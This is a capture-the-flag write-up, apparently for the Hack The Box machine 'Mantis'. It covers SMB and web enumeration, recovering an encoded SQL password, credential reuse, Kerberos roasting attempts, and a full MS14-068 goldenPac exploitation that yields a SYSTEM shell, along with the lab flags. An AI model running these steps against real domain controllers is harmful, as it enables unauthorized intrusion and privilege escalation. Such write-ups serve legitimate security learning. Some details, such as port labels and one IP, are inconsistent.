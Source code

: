 s**Skills Required**
● Intermediate/advanced knowledge of
Windows Server
● Knowledge of domain controllers
**Skills Learned**
● Enumerating SQL Server Express
databases
● Exploiting domain controllers and
Kerberos

port 88 (jkerberos)
port 445 (smb)
port 135 (ldap)

Utilizing port 445(smb), I utilize crackmapexec to collect additional information about the victim's machines.
``` 
❯ crackmapexec smb 10.10.10.52

SMB         10.10.10.52     445    MANTIS           [*] Windows Server 2008 R2 Standard 7601 Service Pack 1 x64 (name:MANTIS) (domain:htb.local) (signing:True) (SMBv1:True)
```

Crackmapexec provided me some information , such as the domain name, which I then saved in my hosts file.

Next I attempted to use smbmap to list the shared drivers. However, I encountered an  "Authentication error ". This indicates that I need credentials to access the shared drivers.

I began by enumerating the http ports on the website
``` bash
10.10.10.52:1337 # The typical IIS7 image
# enumerate with wfuzz or gobuster
gobuster dir -u http://10.10.10.52:1337/ -w /usr/share/seclist.... --add-slash -x php,html,txt

# Waiting for the gobuster scan I enumerate another port
10.10.10.52:8080 # Some blog and panel login -> Nothing interesant

```

After gobuster finished the scan, the tool discovered two directories: "orchard" and "secure_notes"
When I checked the  "secure_notes" directory, I found a .txt file containing some instructions. The file's name appeared to be a string encoded in base64.
``` bash
dev_notes_NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx.txt.txt
1. Download OrchardCMS
2. Download SQL server 2014 Express ,create user "admin",and create orcharddb database
3. Launch IIS and add new website and point to Orchard CMS folder location.
4. Launch browser and navigate to http://localhost:8080
5. Set admin password and configure sQL server connection string.
6. Add blog pages with admin user.
```

After decoding the string, I obtained a hexadecimal string. To reverse it, I used the "xxd" tool

``` bash
❯ echo "NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx" | base64 -d | xxd -ps -r; echo
m$$ql_S@_P@ssW0rd!
```

I obtained credential and information from the note, Port 1433 is associated with the Microsoft SQL Server service , and I can attempt to connect to it using these credentials.

```
blog_Orchard_Users_UserPartRecord
2	admin		admin	AL1337E2D6YHm0iIysVzG8LA76OozgMSlyOJk1Ov5WCGK+lgKY6vrQuswfWHKZn2+A==	Hashed
15	James	james@htb.local	james	J@m3s_P@ssW0rd!	Plaintext

	james J@m3s_P@ssW0rd!
```

I obtain credentials and then verify them using crackmapexec
``` 
❯ crackmapexec smb 10.10.10.52 -u 'james' -p 'J@m3s_P@ssW0rd!'
SMB         10.10.10.52     445    MANTIS           [*] Windows Server 2008 R2 Standard 7601 Service Pack 1 x64 (name:MANTIS) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.10.10.52     445    MANTIS           [+] htb.local\james:J@m3s_P@ssW0rd! 
```

These credentials are valid, I am using them to enumerate domain users with rpcclient
``` 
rpcclient -U 'james%J@m3s' 10.10.100.52 -c "enumdomgroups"
rpcclient -U 'james%J@m3s' 10.10.100.52 -c "querygroupmem 0x200"
rpcclient -U 'james%J@m3s' 10.10.100.52 -c "queryuser 0x1f4"
```

When I receive a username, I always check for "ASREProast Attack" and "kerberoasting attack"
``` bash
GetNPUsers htb.local/ -no-pass -usersfile users -> ASREProast attacl
GetUserSPNs htb.local/james@10.10.10.52 -> kerberoasting attack
```

As the user james I can't do anything for the moment

I'm going to gather information and potential attack vectors with bloodhound
``` bash
bloodhound-python -c ALL -ns 10.10.10.52 -d htb.local -u 'james' -p 'J@m3s----'
neo4j console
bloodhound
```

The Bloodhound tool didn't provide me with any interesting results.
I need search for more information. I'm using the repository "PayloadsAllTheThings/Methodology and Resources/Active Directory Attack.md(ms14-068)" https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#from-cve-to-system-shell-on-dc
``` bash
goldenPac.py htb.local/james@10.10.10.52 #this give me another domian, I save it in my hosts file (mantis and mantis.htb.local)

❯ goldenPac.py htb.local/james@mantis
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

Password:
[*] User SID: S-1-5-21-4220043660-4019079961-2895681657-1103
[*] Forest SID: S-1-5-21-4220043660-4019079961-2895681657
[*] Attacking domain controller mantis.htb.local
[*] mantis.htb.local found vulnerable!
[*] Requesting shares on mantis.....
[*] Found writable share ADMIN$
[*] Uploading file HrJEEonA.exe
[*] Opening SVCManager on mantis.....
[*] Creating service oCvV on mantis.....
[*] Starting service oCvV.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```

I gained acces as "nt authority\system" simpy by exploiting the MS14-068 vulnerability with goldenPac tool
	User flag 5abd3b98a6326562c93825ac30d63da1
root flag cdc2ac1467172cda8f8b6fbdf008300c




